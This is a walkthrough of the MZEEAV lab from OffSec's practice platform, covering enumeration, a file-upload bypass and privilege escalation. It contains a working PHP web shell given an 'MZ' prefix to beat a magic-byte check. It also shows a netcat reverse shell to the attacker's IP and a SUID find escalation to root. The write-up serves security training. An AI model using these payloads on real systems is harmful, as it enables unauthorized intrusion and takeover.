





# MZEEAV

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 15
Number of Flags: 2
Lab Description:
In this lab, Learners will employ techniques for enumeration, including web enumeration to identify vulnerabilities. 
They will explore file upload bypass methods and practice privilege escalation to gain unauthorized access. Finally, 
the lab covers abusing SUID binaries to exploit privilege flaws. This lab focuses on exploiting security 
vulnerabilities to understand system weaknesses.
```

Machine link: [https://portal.offsec.com/machine/mzeeav-150716/overview/details](https://portal.offsec.com/machine/mzeeav-150716/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ export TARGET_IP=192.168.226.33 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-09 17:59 +0100
Nmap scan report for 192.168.226.33
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: MZEE-AV - Check your files
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.85 seconds
```

We have two TCP-services running and available:

- An [OpenSSH](https://en.wikipedia.org/wiki/OpenSSH) server version 8.4p1 on port 22
- An [Apache httpd](https://en.wikipedia.org/wiki/Apache_HTTP_Server) server 2.4.56 on port 80

We also do an UDP-scan of the top 100 ports but find nothing.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-09 18:01 +0100
Nmap scan report for 192.168.226.33
Host is up (0.038s latency).
All 100 scanned ports on 192.168.226.33 are in ignored states.
Not shown: 60 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 273.36 seconds
```

### Web site analysis

Accessing the website on `http://192.168.226.33/` shows a virus scanner:



We also do some basic web enumeration with `nmap`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ nmap -p 80 --script "http-* and discovery" $TARGET_IP 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-09 18:07 +0100
Pre-scan script results:
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
Nmap scan report for 192.168.226.33
Host is up (0.037s latency).

Bug in http-security-headers: no string output.
PORT   STATE SERVICE
80/tcp open  http
| http-headers: 
|   Date: Mon, 09 Nov 2026 17:07:08 GMT
|   Server: Apache/2.4.56 (Debian)
|   Last-Modified: Wed, 17 Aug 2022 18:42:09 GMT
|   ETag: "5ca-5e67438e9e240"
|   Accept-Ranges: bytes
|   Content-Length: 1482
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-chrono: Request times for /; avg: 77.55ms; min: 75.36ms; max: 80.20ms
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1
|_http-title: MZEE-AV - Check your files
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-errors: Couldn't find any error pages.
|_http-date: Mon, 09 Nov 2026 17:07:08 GMT; 0s from local time.
| http-traceroute: 
|_  Possible reverse proxy detected.
| http-vhosts: 
|_128 names had status 200
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.226.33
|     
|     Path: http://192.168.226.33:80/
|     Line number: 26
|     Comment: 
|         <!-- HTML5 Input Form Elements -->
|     
|     Path: http://192.168.226.33:80/
|     Line number: 30
|     Comment: 
|_        <!-- Ajax JavaScript File Upload Logic -->
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-mobileversion-checker: No mobile version detected.
|_http-xssed: No previously reported XSS vuln.
|_http-feed: Couldn't find any feeds.
| http-enum: 
|   /backups/: Backup folder w/ directory listing
|_  /upload/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 209.96 seconds
```

The most important finding here are two directories `/backups` and `/upload`.

A scan with `whatweb` gives us the following information:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ whatweb -a3 http://$TARGET_IP 
http://192.168.226.33 [200 OK] Apache[2.4.56], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[192.168.226.33], Script, Title[MZEE-AV - Check your files]
```

Scanning for additional interesting directories with `ffuf` we get:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ ffuf -c -w /usr/share/wordlists/dirb/common.txt -recursion -u http://$TARGET_IP/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.226.33/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 41ms]
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 42ms]
                        [Status: 200, Size: 1482, Words: 350, Lines: 52, Duration: 41ms]
backups                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 35ms]
[INFO] Adding a new job to the queue: http://192.168.226.33/backups/FUZZ

.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2174ms]
index.html              [Status: 200, Size: 1482, Words: 350, Lines: 52, Duration: 35ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 35ms]
upload                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 35ms]
[INFO] Adding a new job to the queue: http://192.168.226.33/upload/FUZZ

[INFO] Starting queued job on target: http://192.168.226.33/backups/FUZZ

                        [Status: 200, Size: 949, Words: 64, Lines: 17, Duration: 35ms]
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 36ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 36ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 36ms]
[INFO] Starting queued job on target: http://192.168.226.33/upload/FUZZ

.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 35ms]
                        [Status: 200, Size: 33, Words: 7, Lines: 2, Duration: 36ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 35ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 35ms]
index.html              [Status: 200, Size: 33, Words: 7, Lines: 2, Duration: 35ms]
:: Progress: [4614/4614] :: Job [3/3] :: 1123 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Again, we find the two directories `/backups` and `/upload`.

The `/backups` directory has directory listing enabled.



We download the zip-file for later analysis.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ wget http://192.168.226.33/backups/backup.zip                                              
--2026-11-09 18:16:28--  http://192.168.226.33/backups/backup.zip
Connecting to 192.168.226.33:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 330055 (322K) [application/zip]
Saving to: ‘backup.zip’

backup.zip                                     100%[=================================================================================================>] 322.32K  1.96MB/s    in 0.2s    

2026-11-09 18:16:28 (1.96 MB/s) - ‘backup.zip’ saved [330055/330055]
```

### Analyse the Zip-file

Next, we unpack and analyse the Zip-file.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ unzip backup.zip                    
Archive:  backup.zip
   creating: var/www/html/
   creating: var/www/html/upload/
  inflating: var/www/html/upload/wget.exe  
  inflating: var/www/html/upload/whoami.exe  
 extracting: var/www/html/upload/index.html  
  inflating: var/www/html/listing.php  
  inflating: var/www/html/upload.php  
  inflating: var/www/html/index.html  
```

The PHP-files ought to be the most interesting files to check.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ cat var/www/html/listing.php 
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"> 
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
    
    <style>
    html { display: flex; justify-content: center;}
    body {background-color: black; color: white;}
    p { color: white; font-family: "Monospace";}
    p2 { color: white; font-family: "Monospace"; text-align: center; font-size: 10px;}
    p3 { color: green; font-family: "Monospace"; text-align: center; font-size: 15px;}
    </style>
    
        <title>MZEE-AV - Check your files</title>
    </head>
    <body>
        <pre>
  __  __ _______ ___     ___   __ 
 |  \/  |_  / __| __|__ /_\ \ / / 
 | |\/| |/ /| _|| _|___/ _ \ V /  
 |_|  |_/___|___|___| /_/ \_\_/   
                                  
        </pre>
<hr>
        
        <br>
                <?php
                  print("List checked files:<br><br>");
                  
                  $mydir = './upload/'; 
                  $myfiles = array_diff(scandir($mydir), array('.', '..')); 
                  //print_r($myfiles);
                  
                  foreach($myfiles as $key => $value)
                        {
                        $file = './upload/' . $value;
                        echo "<p3>" . $value . " - MD5: " . md5_file($file) . " - seems to be clean!</p3><br>";
                        }
                ?>
        <br>
        
                <p>Check your PE-files with the online AV engine. <a href="index.html">Home</a></p>
        <br>
        <br>
        <hr>
        <p2>by MZEE-AV 2022</p2>
    </body>
</html>

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ cat var/www/html/upload.php 
<?php

/* Get the name of the uploaded file */
$filename = $_FILES['file']['name'];

/* Choose where to save the uploaded file */
$tmp_location = "upload/file.tmp";
$location = "upload/".$filename;


/* Move the file temporary */
move_uploaded_file($_FILES['file']['tmp_name'], $tmp_location);


/* Check MagicBytes MZ PEFILE 4D5A*/
$F=fopen($tmp_location,"r");
$magic=fread($F,2);
fclose($F);
$magicbytes = strtoupper(substr(bin2hex($magic),0,4)); 
error_log(print_r("Magicbytes:" . $magicbytes, TRUE));

/* if its not a PEFILE block it - str_contains onlz php 8*/
//if ( ! (str_contains($magicbytes, '4D5A'))) {
if ( strpos($magicbytes, '4D5A') === false ) {
        echo "Error no valid PEFILE\n";
        error_log(print_r("No valid PEFILE", TRUE));
        error_log(print_r("MagicBytes:" . $magicbytes, TRUE));
        exit ();
}


rename($tmp_location, $location);


?>
```

We can see that the upload script check the so called magic bytes (the first bytes) of the uploaded file.

The first two bytes must be `MZ`, the DOS header magic bytes, that PE-files also have.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ echo '\x4D\x5A'
MZ
```

### Upload a test file

Let's upload a test file via the web site. We choose one of the EXE-files included in the Zip-file.



After we click `OK` we get the result:



### Create a web shell

We of course want to upload a PHP web shell as a starting point.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ vi web_shell.php

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ cat web_shell.php          
<?php
  if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
  };
?>
```

But we must prepend the 'MZ'-header for the file to be accepted.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ echo -n '\x4D\x5A' > web_shell_fixed.php

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ cat web_shell.php >> web_shell_fixed.php

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ cat web_shell_fixed.php                 
MZ<?php
  if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
  };
?>
```

### Get a web shell

Then we upload the `web_shell_fixed.php` file:



We can then verify the web shell with `curl`:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ curl 'http://192.168.226.33/upload/web_shell_fixed.php?cmd=id'
MZ<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

Success!

### Prepare a reverse shell

We want to upload a bash reverse shell. An URL-encoded version of

```bash
nc 192.168.45.241 12345 -e /bin/bash
```

which is

```bash
nc%20192.168.45.241%2012345%20-e%20%2Fbin%2Fbash
```

Next, we start a [Penelope](https://github.com/brightio/penelope) listener on port 12345:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.241:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

```

Then we trigger the reverse shell via the web shell.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ curl 'http://192.168.226.33/upload/web_shell_fixed.php?cmd=nc%20192.168.45.241%2012345%20-e%20%2Fbin%2Fbash'   
```

### Get a reverse shell

Back at the Penelope listener, we get a connection:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ whatweb -a3 http://$TARGET_IP 
http://192.168.226.33 [200 OK] Apache[2.4.56], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[192.168.226.33], Script, Title[MZEE-AV - Check your files]
                                                                                                                                                                                         
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/MZEEAV]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.241:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => mzeeav 192.168.226.33 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>
[+] ⭐ Agent deployed via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/mzeeav~192.168.226.33-Linux-x86_64/2026_11_09-18_54_47-993-www-data(33).log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@mzeeav:/var/www/html/upload$ 
```

### Get the user flag

Now we can search for the user flag.

```bash
www-data@mzeeav:/var/www/html/upload$ find / -name local.txt -type f 2>/dev/null
/home/avuser/local.txt
www-data@mzeeav:/var/www/html/upload$ cat /home/avuser/local.txt 
2<REDACTED>a
www-data@mzeeav:/var/www/html/upload$ 
```

### Enumeration for privesc

Now it's time to search for privilege escalation oppurtunities. We loosely follow my [Linux PrivEsc Checklist](https://cajac.gitbook.io/ctf-notes/priv-esc/linux-privilege-escalation/linux-privesc-checklist) for this.

Searching for SGID-files, we find an unusual file in the `/opt` directory:

```bash
www-data@mzeeav:/home/avuser$ find / -type f -perm /2000 -ls 2>/dev/null
   130565    304 ---s--s--x   1 root     root       311008 Nov 14  2023 /opt/fileS
   652873     40 -rwxr-sr-x   1 root     shadow      38912 Aug 26  2021 /usr/sbin/unix_chkpwd
   660667     24 -rwxr-sr-x   1 root     tty         22760 Jan 20  2022 /usr/bin/write.ul
   652888     80 -rwxr-sr-x   1 root     shadow      80256 Feb  7  2020 /usr/bin/chage
   662575     24 -rwxr-sr-x   1 root     mail        23040 Feb  4  2021 /usr/bin/dotlockfile
   657970     44 -rwxr-sr-x   1 root     crontab     43568 Feb 22  2021 /usr/bin/crontab
   657613    348 -rwxr-sr-x   1 root     ssh        354440 Sep 23  2023 /usr/bin/ssh-agent
   654299     36 -rwxr-sr-x   1 root     tty         35048 Jan 20  2022 /usr/bin/wall
   652891     32 -rwxr-sr-x   1 root     shadow      31160 Feb  7  2020 /usr/bin/expiry
www-data@mzeeav:/home/avuser$ ls -l /opt/fileS 
---s--s--x 1 root root 311008 Nov 14  2023 /opt/fileS
www-data@mzeeav:/home/avuser$ file /opt/fileS 
/opt/fileS: setuid, setgid executable, regular file, no read permission
www-data@mzeeav:/home/avuser$ strings -n 8 /opt/fileS 
bash: strings: command not found
www-data@mzeeav:/home/avuser$ /opt/fileS 
.
./.bash_logout
./.bashrc
./local.txt
./.bash_history
./.profile
www-data@mzeeav:/home/avuser$ /opt/fileS -h
/opt/fileS: unknown predicate `-h'
www-data@mzeeav:/home/avuser$ /opt/fileS --help
Usage: /opt/fileS [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]

default path is the current directory; default expression is -print
expression may consist of: operators, options, tests, and actions:
operators (decreasing precedence; -and is implicit where no others are given):
      ( EXPR )   ! EXPR   -not EXPR   EXPR1 -a EXPR2   EXPR1 -and EXPR2
      EXPR1 -o EXPR2   EXPR1 -or EXPR2   EXPR1 , EXPR2
positional options (always true): -daystart -follow -regextype

normal options (always true, specified before other expressions):
      -depth --help -maxdepth LEVELS -mindepth LEVELS -mount -noleaf
      --version -xdev -ignore_readdir_race -noignore_readdir_race
tests (N can be +N or -N or N): -amin N -anewer FILE -atime N -cmin N
      -cnewer FILE -ctime N -empty -false -fstype TYPE -gid N -group NAME
      -ilname PATTERN -iname PATTERN -inum N -iwholename PATTERN -iregex PATTERN
      -links N -lname PATTERN -mmin N -mtime N -name PATTERN -newer FILE
      -nouser -nogroup -path PATTERN -perm [-/]MODE -regex PATTERN
      -readable -writable -executable
      -wholename PATTERN -size N[bcwkMG] -true -type [bcdpflsD] -uid N
      -used N -user NAME -xtype [bcdpfls]      -context CONTEXT

actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;

Valid arguments for -D:
exec, opt, rates, search, stat, time, tree, all, help
Use '-D help' for a description of the options, or see find(1)

Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "/opt/fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
www-data@mzeeav:/home/avuser$ 
```

This seems to something very similar to `find`!

### Get a root shell

If we need guidence on how to get a root shell from this we can consult [GTFOBins](https://gtfobins.org/gtfobins/find/) as usual.

```bash
www-data@mzeeav:/home/avuser$ /opt/fileS . -exec /bin/bash -p \; -quit
bash-5.1# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.1# 
```

### Get the root flag

Finally, we can get the root flag.

```bash
bash-5.1# cd /root
bash-5.1# ls -la
total 28
drwx------  3 root root 4096 Nov  9 11:58 .
drwxr-xr-x 18 root root 4096 Nov 13  2023 ..
lrwxrwxrwx  1 root root    9 Nov 14  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Nov 13  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root    9 Dec 12  2023 email2.txt
-rw-------  1 root root   33 Nov  9 11:58 proof.txt
bash-5.1# cat proof.txt 
f<REDACTED>5
bash-5.1# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [bash - Linux manual page](https://www.man7.org/linux/man-pages/man1/bash.1.html)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [ffuf - GitHub](https://github.com/ffuf/ffuf)
- [ffuf - Kali Tools](https://www.kali.org/tools/ffuf/)
- [ffuf - Wiki](https://github.com/ffuf/ffuf/wiki)
- [file - Linux manual page](https://man7.org/linux/man-pages/man1/file.1.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [find GTFOBins](https://gtfobins.org/gtfobins/find/)
- [HTML - Wikipedia](https://en.wikipedia.org/wiki/HTML)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [Linux Privilege Escalation Checklist - Cajac's CTF Notes](https://cajac.gitbook.io/ctf-notes/priv-esc/linux-privilege-escalation/linux-privesc-checklist)
- [List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Penelope - GitHub](https://github.com/brightio/penelope)
- [Penelope - Kali Tools](https://www.kali.org/tools/penelope/)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [strings - Linux manual page](https://man7.org/linux/man-pages/man1/strings.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [unzip - Linux manual page](https://linux.die.net/man/1/unzip)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
